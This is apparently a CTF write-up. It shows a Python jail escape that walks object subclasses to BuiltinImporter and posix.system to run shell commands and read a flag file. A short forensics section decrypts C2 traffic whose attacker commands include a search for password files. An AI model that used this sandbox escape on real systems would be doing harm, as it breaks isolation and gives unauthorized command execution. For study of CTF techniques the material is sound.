```gdscript3
>>> i(().__class__)
i(().__class__)
<class 'tuple'>
ran
>>> i(().__class__.__mro__)                  
i(().__class__.__mro__)
(<class 'tuple'>, <class 'object'>)
ran
```

Got it!
Now, we're using object introspection.
This can be done by calling `__subclasses__()`
to list all loaded classes in memory.
We're looking for `os`, `subprocess`, or `open`.

```gdscript3
>>> i(().__class__.__mro__[1].__subclasses__)
i(().__class__.__mro__[1].__subclasses__)
<built-in method __subclasses__ of type object at 0xffffb2fa8698>
ran
>>> i(().__class__.__mro__[1].__subclasses__())
i(().__class__.__mro__[1].__subclasses__())
[<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>, <class 'builtin_function_or_method'>, <class 'callable_iterator'>, <class 'PyCapsule'>, <class 'cell'>, <class 'classmethod_descriptor'>, <class 'classmethod'>, <class 'code'>, <class 'complex'>, <class 'coroutine'>, <class 'dict_items'>, <class 'dict_itemiterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_keys'>, <class 'mappingproxy'>, <class 'dict_reverseitemiterator'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_values'>, <class 'dict'>, <class 'ellipsis'>, <class 'enumerate'>, <class 'float'>, <class 'frame'>, <class 'frozenset'>, <class 'function'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'instancemethod'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'list'>, <class 'longrange_iterator'>, <class 'member_descriptor'>, <class 'memoryview'>, <class 'method_descriptor'>, <class 'method'>, <class 'moduledef'>, <class 'module'>, <class 'odict_iterator'>, <class 'pickle.PickleBuffer'>, <class 'property'>, <class 'range_iterator'>, <class 'range'>, <class 'reversed'>, <class 'symtable entry'>, <class 'iterator'>, <class 'set_iterator'>, <class 'set'>, <class 'slice'>, <class 'staticmethod'>, <class 'stderrprinter'>, <class 'super'>, <class 'traceback'>, <class 'tuple_iterator'>, <class 'tuple'>, <class 'str_iterator'>, <class 'str'>, <class 'wrapper_descriptor'>, <class 'types.GenericAlias'>, <class 'anext_awaitable'>, <class 'async_generator_asend'>, <class 'async_generator_athrow'>, <class 'async_generator_wrapped_value'>, <class 'coroutine_wrapper'>, <class 'InterpreterID'>, <class 'managedbuffer'>, <class 'method-wrapper'>, <class 'types.SimpleNamespace'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'weakref.CallableProxyType'>, <class 'weakref.ProxyType'>, <class 'weakref.ReferenceType'>, <class 'types.UnionType'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class 'hamt'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'keys'>, <class 'values'>, <class 'items'>, <class '_contextvars.Context'>, <class '_contextvars.ContextVar'>, <class '_contextvars.Token'>, <class 'Token.MISSING'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'ast.AST'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc._abc_data'>, <class 'abc.ABC'>]
ran
```

Whww, that's a really long one :v  
There's none of the classes specified earlier,
but there's `_io` and `_frozen_importlib`.

I first tried `_io` and its modules,
but none seems to work,
and that also the flag name is unknown.

So I went with `_frozen_importlib` instead,
and Arcanum said these functions are interesting:

1. **`_frozen_importlib.BuiltinImporter`**
2. **`_frozen_importlib.FrozenImporter`**
3. **`_frozen_importlib_external.FileLoader`**
4. **`_frozen_importlib_external.FileFinder`**

If I tried `FrozenImporter`,
it doesn't seems to have any useful modules...

```gdscript3
>>> i(().__class__.__bases__[0].__subclasses__()[104].exec_module("sys"))
i(().__class__.__bases__[0].__subclasses__()[104].exec_module("sys"))
None
ran
>>> i(().__class__.__bases__[0].__subclasses__()[104].exec_module("os"))
i(().__class__.__bases__[0].__subclasses__()[104].exec_module("os"))
None
ran
>>> i(().__class__.__bases__[0].__subclasses__()[104].exec_module("subprocess"))
i(().__class__.__bases__[0].__subclasses__()[104].exec_module("subprocess"))
None
ran
```

What works was `BuiltinImporter`,
which has the `sys` module!! :o

```gdscript3
>>> i(().__class__.__mro__[1].__subclasses__()[104])
i(().__class__.__mro__[1].__subclasses__()[104])
<class '_frozen_importlib.BuiltinImporter'>
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("os"))
i(().__class__.__mro__[1].__subclasses__()[104].load_module("os"))
except
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys"))
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys"))
<module 'sys' (<class '_frozen_importlib.BuiltinImporter'>)>
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules)
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules)
{'builtins': <module 'builtins' (built-in)>, '_frozen_importlib': <module '_frozen_importlib' (frozen)>, '_imp': <module '_imp' (built-in)>, '_thread': <module '_thread' (built-in)>, '_warnings': <module '_warnings' (built-in)>, '_weakref': <module '_weakref' (built-in)>, '_io': <module '_io' (built-in)>, 'marshal': <module 'marshal' (built-in)>, 'posix': <module 'posix' (built-in)>, '_frozen_importlib_external': <module '_frozen_importlib_external' (frozen)>, 'time': <module 'time' (built-in)>, 'zipimport': <module 'zipimport' (frozen)>, '_codecs': <module '_codecs' (built-in)>, 'codecs': <module 'codecs' from '/usr/local/lib/python3.10/codecs.py'>, 'encodings.aliases': <module 'encodings.aliases' from '/usr/local/lib/python3.10/encodings/aliases.py'>, 'encodings': <module 'encodings' from '/usr/local/lib/python3.10/encodings/__init__.py'>, 'encodings.utf_8': <module 'encodings.utf_8' from '/usr/local/lib/python3.10/encodings/utf_8.py'>, '_signal': <module '_signal' (built-in)>, '_abc': <module '_abc' (built-in)>, 'abc': <module 'abc' from '/usr/local/lib/python3.10/abc.py'>, 'io': <module 'io' from '/usr/local/lib/python3.10/io.py'>, '__main__': <module '__main__' from '/app/run'>, 'sys': <module 'sys' (<class '_frozen_importlib.BuiltinImporter'>)>}
ran
```

There's even `builtins` there!!  
But here,
I just use `posix` that allow me to execute shell commands
with its `system` method.

```
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('id'))
uid=1000 gid=1000 groups=1000
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('id'))
0
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('ls'))
run
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('ls'))
0
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('pwd'))
/app
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('pwd'))
0
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('ls ..'))
app
bin
dev
etc
flag-e1399cacce39a164310d45edc2f5960a
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('ls ..'))
0
ran
>>> i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('cat ../flag-e1399cacce39a164310d45edc2f5960a'))
REDACTED
i(().__class__.__mro__[1].__subclasses__()[104].load_module("sys").modules['posix'].system('cat ../flag-e1399cacce39a164310d45edc2f5960a'))
0
ran
```

That's the local flag :>  
Now, just do it on the remote instance!



**Flag: `CJ{8bee73d086b2d224adcd60d5df27fe52}`**  
**Rating: [8/10]**

Pyjail is kinda fun ngl, I might make it my second cat., dawg :p

## Forensics

### [500] ⌛️ C2 ⌛️ [0 Solve]

#### Summary

Upsolved! Given a .pcap, we extract a C2 backdoor binary, and with incoming openssl AES-128 ECB encrypted commands, get the flag as one of the decrypted command.

#### Solution

WIP

By the way, one guy just solve the chall with one command 🥶🥶

```sh
$ tshark -r c2.pcap -Y 'tcp.port eq 22222 and data.len > 8' -Tfields -e data | xargs -IZ bash -c 'echo $(echo Z | xxd -r -p | openssl enc -aes-128-ecb -d -K A7D35E2FB881F6C490DE6AC93B7E8FE2)'
ls
id
find / | grep pass
printf "CJ{8c05db2894cde846f4967bfa0274ad177d6e9f95b26d442c7046f8e7ea5c929f}" > /tmp/hacker_was_here
cat /tmp/hacker_was_her
cat /tmp/hacker_was_here
id
ls alt
```

What a lad.
I gotta learn `openssl` for real duhh.